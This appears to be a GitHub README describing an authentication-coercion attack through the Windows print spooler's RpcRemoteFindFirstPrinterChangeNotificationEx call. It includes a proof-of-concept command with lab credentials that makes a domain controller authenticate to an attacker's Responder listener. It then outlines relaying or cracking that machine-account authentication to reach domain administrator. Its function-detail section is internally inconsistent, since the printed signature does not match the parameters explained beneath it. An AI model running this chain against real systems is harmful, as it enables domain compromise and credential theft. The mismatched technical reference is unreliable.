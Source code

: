 # MS-RPRN - Remote call to RpcRemoteFindFirstPrinterChangeNotificationEx (opnum 65)

## Summary

+ **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

+ **Protocol version**: 1.0

+ **Function name**: [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d)

+ **Function operation number**: `65`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcRemoteFindFirstPrinterChangeNotificationEx(...)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcRemoteFindFirstPrinterChangeNotificationEx(
    [in, string, unique] STRING_HANDLE pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired
);
```


+ **hPrinter**: A handle to a printer or server object that was opened by RpcAddPrinter (section 3.1.4.2.3), RpcAddPrinterEx (section 3.1.4.2.15), RpcOpenPrinter (section 3.1.4.2.2), or RpcOpenPrinterEx (section 3.1.4.2.14).


+ **fdwFlags**: Flags that specify the conditions that are required for a change notification object to enter a signaled state. A change notification MUST occur when one or more of the specified conditions are met.

    This parameter specifies a bitwise OR of zero or more Printer Change Values (section 2.2.4.13). The rules governing printer change values are specified in section 2.2.4.13.


+ **fdwOptions**: The category of printers for which change notifications are returned. This parameter MUST be one of the supported values specified in Printer Notification Values (section 2.2.3.8).


+ **pszLocalMachine**: A pointer to a string that represents the name of the client computer. The rules governing server names are specified in section 2.2.4.16.


+ **dwPrinterLocal**: An implementation-specific unique value that MUST be sufficient for the client to determine whether a call to RpcReplyOpenPrinter (section 3.2.4.1.1) by the server is associated with the hPrinter parameter in this call.<369>


+ **pOptions**: A pointer to an RPC_V2_NOTIFY_OPTIONS (section 2.2.1.13.1) structure that specifies printer or job members that the client listens to for notifications. For lists of members that can be monitored, see Printer Notification Values (section 2.2.3.8) and Job Notification Values (section 2.2.3.3).

    The value of this parameter can be NULL if the value of fdwFlags is nonzero.


## References

+ Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


+ Documentation of function `RpcRemoteFindFirstPrinterChangeNotificationEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d
